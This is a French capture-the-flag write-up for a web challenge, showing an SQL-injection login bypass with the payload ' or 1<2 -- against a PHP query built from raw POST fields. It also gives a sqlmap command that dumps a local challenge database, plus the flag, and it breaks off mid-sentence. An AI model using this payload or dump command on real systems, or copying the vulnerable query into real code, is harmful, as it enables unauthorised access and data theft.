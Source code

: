# Web 100 - Starbug Bounty

On détecte une simple injection SQL, il est donc possible de contourner l’authentification avec le
payload suivant.
> Username : ‘ or 1<2 --
> Password : peu importe


En injectant le payload dans le champ “username” de la requête 1 la condition devient vraie et le reste de
la requête est ignorée car elle est précédée d’un commentaire.

>1 - $stmt = $pdo->query("SELECT
password='".$_POST['password']."'");
*
FROM
users
WHERE
username='".$_POST['username']."'
and

> 2 - $stmt = $pdo->query("SELECT * FROM users WHERE username='' or 1<2 --' and password='".$_POST['password']."'");


Nous sommes connectés sur l’interface et nous pouvons donc utiliser le flag qui nous est donné :
**ese{Auth_SqL_1s_s0000_w34k}**




Il était aussi possible d’utiliser SQLMap pour extraire le contenu de la base de données et ensuite se
connecter avec les identifiants récupérés.
> python
sqlmap.py
-u
'http://127.0.0.1/ESE-Epreuves/ESE%20Web%2002%20-
%20Starbug%20Bounty%20-%20Max/Epreuve/' --forms --dbms sqlite --dump

En fournissant les bonnes options à SQLmap telles que le type de base de données, ici SQLITE, on peut
détecter une injection SQL de type UNION. Avec l’option “dump”, l’outil va automatiquement récupérer
toute la base de données.

**Attention** : SQLMap est un outil assez intrusif, à la fin du CTF nous avions plus de 10 GO de logs sur la
machines hébergeant les challenges.

>Database: SQLite_masterdb
>
>Table: users [3 entries]
>
>+----+----------+------------------------+
>
>| id | username | password|
>
>+----+----------+------------------------+
>
>| 1 | admin | Auth_SqL_1s_s0000_w34k |
>
>+----+----------+------------------------+
>
SQLMap nous ressort la base de données et on peut utiliser les iden